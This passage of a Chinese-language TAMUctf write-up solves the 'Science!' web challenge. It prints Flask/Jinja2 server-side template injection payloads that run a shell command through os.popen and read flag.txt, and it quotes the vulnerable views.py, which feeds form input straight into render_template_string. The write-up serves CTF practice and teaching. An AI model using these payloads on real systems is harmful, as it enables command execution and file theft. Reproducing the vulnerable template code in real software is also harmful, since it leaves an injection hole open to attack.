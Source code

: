 几个页面相关的内容连起来得到flag为`gigem{flag_in_source_and_cookies` 。这个题目意思不大。

## Science!

> [http://web3.tamuctf.com](http://web3.tamuctf.com/)
>
> Difficulty: medium

flask的SSTI。

命令执行

```
{{''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('ls -Rhl').read()}}
```

![1552741313918](1552741313918.png)

文件读取

```bash
{{''.__class__.__mro__[2].__subclasses__()[40]('flag.txt').read()}}
```

`gigem{5h3_bl1nd3d_m3_w17h_5c13nc3}` 

views.py内容

```python
import json
import sys
from tamuctf import app
from flask import Flask, render_template, request, jsonify, render_template_string

@app.route('/')
@app.route('/index')
def index():
    
    return render_template('index.html')

@app.route('/science', methods=['POST'])
def science():
    try:
        chem1 = request.form['chem1']
        chem2 = request.form['chem2']
        template = '''<html>
        <div style="text-align:center">
        <h3>The result of combining {} and {} is:</h3></br>
        <iframe src="https://giphy.com/embed/AQ2tIhLp4cBa" width="468" height="480" frameBorder="0" class="giphy-embed" allowFullScreen></iframe></div>
        </html>'''.format(chem1, chem2)

        return render_template_string(template, dir=dir, help=help, locals=locals)
    except:
        return "Something went wrong"
```
